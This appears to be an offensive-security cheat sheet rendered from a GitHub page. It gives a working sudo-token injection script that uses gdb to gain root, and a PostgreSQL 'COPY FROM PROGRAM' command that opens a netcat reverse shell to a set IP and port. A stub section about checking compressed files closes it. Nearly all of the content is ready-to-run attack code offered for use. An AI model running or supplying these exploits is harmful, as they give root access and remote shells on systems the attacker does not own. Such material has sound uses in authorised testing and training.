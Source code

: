 ### Sudo Inject
>Requirements  
>Ptrace fully enabled (/proc/sys/kernel/yama/ptrace_scope == 0).  
>Current user must have living process that has a valid sudo token with the same uid.  
>The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```
```
exploit.sh:

#!/bin/sh
# create an invalid sudo entry for the current shell
echo | sudo -S >/dev/null 2>&1
echo "Current process : $$"
cp activate_sudo_token /tmp/
chmod +x activate_sudo_token
# timestamp_dir=$(sudo --version | grep "timestamp dir" | grep -o '/.*')
# inject all shell belonging to the current user, our shell one :p
for pid in $(pgrep '^(ash|ksh|csh|dash|bash|zsh|tcsh|sh)$' -u "$(id -u)" | grep -v "^$$\$")
do
        echo "Injecting process $pid -> "$(cat "/proc/$pid/comm")
        echo 'call system("echo | sudo -S /tmp/activate_sudo_token /var/lib/sudo/ts/* >/dev/null 2>&1")' \
                | gdb -q -n -p "$pid" >/dev/null 2>&1
done
```
### Postgresql to RCE
```
To run system commands on Linux or Windows, we need to use the PROGRAM parameter. We start with creating a table; we can name — shell.

pg_read_server_files — allow reading files
pg_write_server_files — allow writing to files
pg_execute_server_program — allow executing commands directly into the operating system.

GRANT pg_execute_server_program TO username;
GRANT pg_read_server_files TO username;
GRANT pg_write_server_files TO username;


command execution:
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.226 1234 >/tmp/f';
```
### Check Compressed files
```
check zip,gz,7z,stix,rar files
```

